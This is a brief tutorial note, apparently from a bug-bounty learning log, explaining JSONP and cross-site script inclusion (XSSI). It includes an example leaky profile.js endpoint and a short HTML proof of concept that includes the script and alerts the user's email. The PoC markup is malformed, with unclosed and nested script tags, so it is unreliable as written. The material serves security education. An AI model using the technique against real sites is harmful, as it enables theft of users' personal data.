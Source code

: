 ## 100 Day Learning Challange

# JsonP and XSSI

If any of the information is leaked on an 

- Unprotected Endpoint (Which require No auth-Token, Header and Origin Checks)
- In Any file with Extension `.js` or `.json`

we can include the paticular endpoint to out website and steal the info.

__Example__
https://imran.com/profile.js 

Returns:

```js
var name="imran";
var age=20;
var email="something@gmail.com"
```
The attacker can use POC as

```html
<html>
  <body>
    <script src="https://imran.com/profile.js">
    <script>
      <script>
        alert(email);
      </script>
   </body>
 </html>
```

__Refrences:__
- [https://hackerone.com/reports/138270](https://hackerone.com/reports/138270)
- [https://medium.com/bugbountywriteup/effortlessly-finding-cross-site-script-inclusion-xssi-jsonp-for-bug-bounty-38ae0b9e5c8a](https://medium.com/bugbountywriteup/effortlessly-finding-cross-site-script-inclusion-xssi-jsonp-for-bug-bounty-38ae0b9e5c8a)
